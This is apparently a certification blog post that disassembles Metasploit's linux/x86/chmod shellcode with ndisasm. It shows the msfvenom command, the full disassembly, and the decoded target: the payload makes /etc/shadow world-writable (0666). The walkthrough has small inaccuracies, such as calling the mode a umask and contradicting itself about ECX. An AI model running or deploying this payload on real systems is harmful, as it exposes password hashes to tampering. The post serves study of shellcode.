 ```yaml
---
title: "Linux x86 Shellcoding: Analysis of linux/x86/chmod with ndisasm"
date: 2018-04-10T20:12:07+02:00
---
```


Our goal will be to analyze the `linux/x86/chmod` payload that comes bundled with Metasploit. In order to do so, we will use ndisasm to disassemble it.

First, we will check out which options are needed to generate a sample with `msfvenom`.

```shell
root@kali:~# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode


Advanced options for payload/linux/x86/chmod:
...

```

Therefore, we can directly use the default options for our demonstration purposes.

We can then generate the payload with msfvenom and pipe it to ndisasm by using the following command:

```shell
root@kali:~# msfvenom -p linux/x86/chmod -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

Ndisasm has given us the x86 assembly representation of the generated shellcode. Let's analyze it in chunks.

```x86asm
cdq
push byte +0xf
pop eax
push edx
call 0x16
```

The first instruction `cdq` will copy the sign bit (31) in `EAX` to all the positions in `EDX`. Supposing that `EAX` is positive, then this will effectively zero out `EDX`.

The next `push` `pop` `push` sequence sets `EAX` to 0xF (syscall for `chmod()`) and sets the top of the stack to zero.

The next `call` instruction will move the execution to offset `0x16`, but note that before that position the instructions shown make no sense. We print those bytes and find that there we have the file `chmod` will be called on.

```
root@kali:~# echo -e "\x2F\x65\x74\x63\x2F\x73\x68\x61\x64\x6F\x77\x00"
/etc/shadow
```

We continue with the following instructions:

```
pop ebx
push dword 0x1b6
pop ecx
int 0x80
```

The first `pop` sets `EBX` to the address where the `/etc/shadow` string starts (since the previously executed `call` instruction pushes the return address into the stack), and the following `pop` `push` sequence sets `ECX` to `0x1b6` (0666 in octal, the umask that defines our permissions).

The `pop ecx` will set `ECX` to zero (as this value was pushed into the stack beforehand).

Calling `int 0x80` will execute the `chmod` (as defined by `EAX`) system call with arguments defined by `EBX` and `ECX`, therefore `/etc/shadow/` and 0666 respectively.

The only thing left now is gracefully exit to avoid executing reaching addresses with invalid instructions that would make our program crash:

```
push byte +0x1
pop eax
int 0x80
```

This saves the syscall number (1 in for `exit()`) into `EAX` and executes the syscall, exiting our program.

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

*Student ID: SLAE-964*
